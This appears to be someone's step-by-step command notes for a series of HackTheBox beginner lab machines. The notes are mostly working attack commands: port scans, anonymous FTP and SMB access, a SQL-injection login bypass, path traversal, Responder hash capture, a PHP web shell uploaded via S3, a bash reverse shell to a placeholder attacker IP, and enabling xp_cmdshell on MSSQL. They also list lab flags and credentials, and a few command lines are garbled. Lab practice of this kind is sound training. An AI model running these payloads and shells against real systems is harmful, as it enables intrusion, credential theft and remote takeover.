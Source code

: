 ## Meow challenge:
- sudo openvpn {filename.opvn}
- ping {target_ip}
- sudo nmap -sV 10.129.239.25
- telnet {target_ip}


## Fawn challenge
- sudo nmap {target_ip}
- sudo nmap -sV {target_ip}
- sudo apt install ftp -y
- ftp -h
- ftp {target_ip}
  `username: anonymous
  `password:
- ftp> help
- ftp> ls
- ftp> get flag.txt
- ftp> bye
- cat flag.txt


## Dancing challenge:
- sudo nmap -sV {target_ip}
- sudo apt-get install smbclient
- smbclient -L 10.129.239.172
- smbclient \\\\10.129.239.172\\ADMIN$
- smbclient \\\\10.129.239.172\\C$
- smbclient \\\\10.129.239.172\\WorkShares
- smb: \> help
- smb: \> ls
- smb: \> cd Amy.J
- smb: \Amy.J\> ls
- smb: \Amy.J\> get worknotes.txt
- smb: \Amy.J\> cd ..
- smb: \> cd James.P
- smb: \James.P\> ls
- smb: \James.P\> get flag.txt
- cat flag.txt


## Redeemer challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- nmap -p- -sV 10.129.28.47
- sudo apt install redis-tools
- redis-cli --help
- redis-cli -h 10.129.28.47
- 10.129.28.47:6379> info
- 10.129.28.47:6379> select 0
- 10.129.28.47:6379> keys *
- 10.129.28.47:6379> get stor
- 10.129.28.47:6379> get temp
- 10.129.28.47:6379> get numb
- 10.129.28.47:6379> get flag


## Apointment challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- sudo nmap -sC -sV 10.129.164.88
- http://10.129.164.88/
- Username: admin'#
- Password: abc123


## Sequel challenge:
- sudo nmap -sC -sV 10.129.95.232
- sudo apt update && sudo apt install mysql *
- mysql --help
- mysql -h 10.129.95.232 -u root
- SHOW databases;
- USE htb;
- SHOW tables;
- SELECT * FROM config;


## Crocodile challenge:
- nmap -sC -sV 10.129.146.153
- ftp-anon: Anonymous FTP login allowed (FTP code 230)
- ftp 10.129.146.153
- Name (10.129.146.153:ahmed20078): anonymous
- ftp> help
- ftp> dir
- ftp> get allowed.userlist
- ftp> get allowed.userlist.passwd
- ftp> exit
- cat allowed.userlist
- cat allowed.userlist.passwd
- gobuster dir --url http://10.129.146.153/ --wordlist /media/ahmed20078/ahmed78/Documents/Cyber Projects/go/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
- http://10.129.146.153/login.php
- admin:svndkfngksjvrdkufhkr


## Responder challenge:
- nmap -p- --min-rate 1000 -sV 10.129.95.234
- echo "10.129.95.234 unika.htb" | sudo tee -a /etc/hosts
- http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
- git clone https://github.com/lgandx/Responder
- sudo python2 Responder.py -I tun0
- flag: `ea81b7afddd03efaa0945333ed147fac`


## Three challenge:
- sudo nmap -sV 10.129.101.223
- echo "10.129.101.223 thetoppers.htb" | sudo tee -a /etc/hosts
- Tools: `gobuster` , `wfuzz` and `feroxbuster`
- gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
- echo "10.129.101.223 s3.thetoppers.htb" | sudo tee -a /etc/hosts
- apt install awscli
- aws configure
- aws --endpoint=http://s3.thetoppers.htb s3 ls
- aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
- echo '<?php system($_GET["cmd"]); ?>' > shell.php
- aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
- http://thetoppers.htb/shell.php
- http://thetoppers.htb/shell.php?cmd=id
- ifconfig
- bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
- nc -nvlp 1337
- python3 -m http.server 8000
- cat /var/www/flag.txt
- flag: `a980d99281a28d638ac68b9bf9453c2b`



## Archetype Challenge:
- sudo nmap -sC -sV 10.129.95.187
- sudo apt install smbclient
- smbclient -N -L \\\\10.129.95.187\\
- smbclient -N \\\\10.129.95.187\\backups
- smb> ls
- smb> get prod.dtsConfig
- cat
- Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
- git clone https://github.com/SecureAuthCorp/impacket.git
- cd impacket
- pip3 install .
- cd impacket/examples/
- python3 mssqlclient.py -h
- SQL> help
- SQL> SELECT is_srvrolemember('sysadmin');
- SQL> EXEC xp_cmdshell 'net user';
- sql> EXEC sp_configure 'show advanced options', 1;
- sql> RECONFIGURE;
- sql> sp_configure;
- sql> EXEC sp_configure 'xpcmdshell', 1;
- sql> RECONFIGURE;
- SQL>  xp_cmdshell "whoami"
